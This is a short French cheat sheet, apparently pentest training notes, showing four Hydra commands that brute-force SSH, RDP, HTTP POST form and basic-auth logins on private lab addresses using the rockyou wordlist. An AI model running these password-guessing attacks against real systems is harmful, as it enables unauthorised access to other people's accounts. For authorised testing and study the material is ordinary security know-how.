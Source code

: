 ## Hydra
Permet d'utiliser un mot ou une liste de mot pour trouver nom d'utilisateur et/ou le mot de passe pour différent services.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ shell
#ssh
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
#rdp
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
#http-post form
#Dernier paramètre: “/chemin:post_request:fail_condition”
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
#basic auth
hydra -l admin -P /usr/share/wordlists/rockyou.txt -f https-get://192.168.241.201/index.php
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~